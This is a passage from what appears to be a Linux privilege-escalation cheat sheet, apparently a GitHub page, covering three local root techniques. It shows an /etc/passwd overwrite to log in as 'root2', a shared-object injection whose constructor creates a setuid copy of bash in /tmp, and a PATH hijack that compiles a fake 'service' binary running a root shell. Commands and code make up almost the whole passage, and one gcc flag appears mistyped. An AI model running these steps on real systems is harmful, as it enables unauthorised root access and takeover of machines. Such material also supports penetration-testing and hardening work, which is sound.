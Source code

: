 Copy your new passwd file:
```
cp passwd.orig /etc/passwd
```

Now you got root2 access!
```
su root2
```
##### SO Injection

Try to run the program with strace (local):
```
strace /that/program 2>&1 | grep -i  -E "open|access|no such file"
```
Then, try to find files that you can overwrite.

your file in c, for example, library.c:
```c
# include <stdio.h>
# include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
  system("cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot");
}
```

Compile it:
```
gcc -fPIC -share -o /path/to/library/library.so library.c
```

Run that suid file and then go to /tmp and access with:
```
./bashroot -p
```

##### Environment Variables

###### No full path service

Let's exploit $PATH!
Check if the program uses a binary that is not been executed via full path.
Then, let's change the PATH

```
export PATH=/tmp:$PATH
```
Check your PATH env!

Let's create a malicious file:
```shell
echo "int main(){ setgid(0); setuid(0); system('/bin/bash'); return 0;}" > /tmp/service.c
```

Let's compile it:
```
gcc /tmp/service.c -o /tmp/service
```
